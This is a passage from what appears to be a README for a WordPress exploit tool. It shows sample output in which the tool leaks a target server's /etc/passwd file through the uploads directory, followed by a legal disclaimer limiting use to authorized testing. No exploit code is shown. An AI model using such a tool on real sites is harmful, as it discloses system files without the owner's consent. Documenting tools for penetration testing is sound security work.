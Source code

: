```
======================================================================
 EXPLOITATION SUCCESSFUL!
======================================================================
File URL:  http://host.internal:8080/wp-content/uploads/2025/10/leaked_passwd.txt
File size: 839 bytes
Saved to:  leaked_passwd.txt

--- FILE CONTENT (first 500 chars) ---
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin
--- END ---
======================================================================
```

---

## ⚖️ Legal Disclaimer

**FOR EDUCATIONAL AND AUTHORIZED TESTING ONLY**

This tool is provided for security research and penetration testing purposes only. Usage of this tool for attacking targets without prior mutual consent is **illegal**.

**It is the end user's responsibility to obey all applicable local, state, and federal laws.**

- ✅ Use only on systems you own or have explicit written permission to test
- ✅ Responsible disclosure practices
- ✅ Educational and research purposes
- ❌ Unauthorized access is illegal and punishable by law
- ❌ The author assumes no liability for misuse

**By using this tool, you agree to use it legally and ethically.**

---

Last Updated: October 17, 2025
